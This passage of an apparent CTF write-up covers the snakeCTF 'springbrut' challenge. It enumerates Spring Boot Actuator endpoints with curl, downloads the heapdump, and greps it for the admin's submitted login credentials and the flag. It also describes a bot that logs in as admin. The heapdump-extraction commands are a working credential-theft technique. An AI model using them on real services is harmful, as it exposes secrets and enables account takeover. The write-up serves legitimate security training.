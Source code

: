 Useful article for Exploiting Spring Boot Actuators:

- [Spring Actuators - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators/)
- [Spring Actuator Security, Part 1: Stealing Secrets Using Spring Actuators](https://blog.maass.xyz/spring-actuator-security-part-1-stealing-secrets-using-spring-actuators#heading-actually-ill-just-have-everything-to-go-please)

Looking at the available endpoint:

```console
$ curl -s http://localhost:5002/actuator | jq '._links | to_entries[].value.href' -r
http://localhost:5002/actuator
http://localhost:5002/actuator/beans
http://localhost:5002/actuator/caches/{cache}
http://localhost:5002/actuator/caches
http://localhost:5002/actuator/health
http://localhost:5002/actuator/health/{*path}
http://localhost:5002/actuator/info
http://localhost:5002/actuator/conditions
http://localhost:5002/actuator/configprops
http://localhost:5002/actuator/configprops/{prefix}
http://localhost:5002/actuator/env
http://localhost:5002/actuator/env/{toMatch}
http://localhost:5002/actuator/loggers
http://localhost:5002/actuator/loggers/{name}
http://localhost:5002/actuator/heapdump
http://localhost:5002/actuator/threaddump
http://localhost:5002/actuator/metrics/{requiredMetricName}
http://localhost:5002/actuator/metrics
http://localhost:5002/actuator/scheduledtasks
http://localhost:5002/actuator/mappings
```

Trying the above endpoints, it seems that URL path /heapdump is useful:

```console
$ curl -s http://localhost:5002/actuator/heapdump -o local-heapdump.bin

$ strings local-heapdump.bin | grep REDACTED
REDACTED!
username=admin&password=REDACTED&_csrf=-LmK3co0CBnCh8-QCH8GmWv-0zj64I_8aBUxBH0o9UlHVB3Am9i566tSbHjv4_6iPVIyoQ3O_gGb0erRXScGZhxNkHtwbSny11
(snip)
snakeCTF{REDACTED}
```

I could get the admin's password which is submitted for login, the dummy flag too.

### bot

<details><summary>src/bot/bot.js</summary></details>

This bot is accessing springbrut's login page `http://springbrut:8080`.
And it input admin's username and password, then submit.
